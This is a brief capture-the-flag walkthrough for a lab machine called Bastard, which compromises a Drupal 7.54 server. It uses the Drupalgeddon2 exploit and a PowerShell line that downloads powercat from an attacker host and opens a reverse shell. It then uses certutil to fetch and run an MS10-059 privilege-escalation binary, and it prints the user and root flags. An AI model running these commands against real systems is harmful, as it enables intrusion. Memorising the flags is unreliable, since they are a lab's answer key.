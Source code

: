 # Bastard

## Recon

Starting with recon:

```sh
sudo autorecon 10.10.10.9
```

## Enumeration

- `Drupal 7.54` on port 80


## Exploit

Drupalgeddon2 the ruby script works from `searchsploit`

```sh
searchsploit -m 44449.rb
```

and when running this, we get a warning about a shebang error, so we use dos2unix to fix this.

```sh
dos2unix 44449.rb
```

and finally fire off the exploit:

```sh
ruby 44449.rb
```

now running this with reverse shell on `443`:

```sh
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.27/powercat.ps1');powercat -c 10.10.14.27 -p 443 -e cmd"
```

gives us a low priv reverse shell.

User.txt: `ba22fde1932d06eb76a163d312f921a2`

## Privilege escalation

Get systeminfo and use `windows-exploit-suggester`

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/MS10-059.exe" C:\inetpub\drupal-7.54\MS10-059.exe

MS10-059.exe 10.10.14.27 5555
```

root.txt: `4bf12b963da1b30cc93496f617f7ba7c`
